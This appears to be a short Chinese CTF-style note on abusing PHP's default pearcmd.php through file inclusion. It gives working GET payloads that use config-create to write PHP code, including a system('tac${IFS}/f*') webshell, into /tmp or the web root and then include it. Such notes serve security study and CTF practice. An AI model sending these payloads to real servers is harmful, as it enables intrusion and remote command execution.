 ```yaml
---
title: pearcmd
date: 2024-01-09 14:41:45
tags:
categories:
---
```


在Docker任意版本镜像中，pcel/pear都会被默认安装，安装的路径在**/usr/local/lib/**php。**/usr/local/lib/php**/pearcmd.php



要利用这个pearcmd.php需要满足几个条件：

（1）.要开启register_argc_argv这个选项在Docker中使自动开启的

（2）.要有文件包含的利用



config-create命令需要传入两个参数，其中第二个参数是写入的文件路径，第一个参数会被写入到这个文件中。

?+config-create+/



**例payload**

Get

`/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php`

上面是将<?=phpinfo()?>写到/tmp/hello.php,然后我们再使用文件包含进行包含我们之前写入的文件（hello.php）就可以了。



POST可用 再传参就行

`/?+config-create+/&/<?=system('tac${IFS}/f*');?>+/var/www/html/temp`

**/var/www/html**/temp 传这里

传参：`a=localhost/usr/local/lib/php/pearcmd.php&1`



**常见写入：**

system('tac${IFS}/f*')
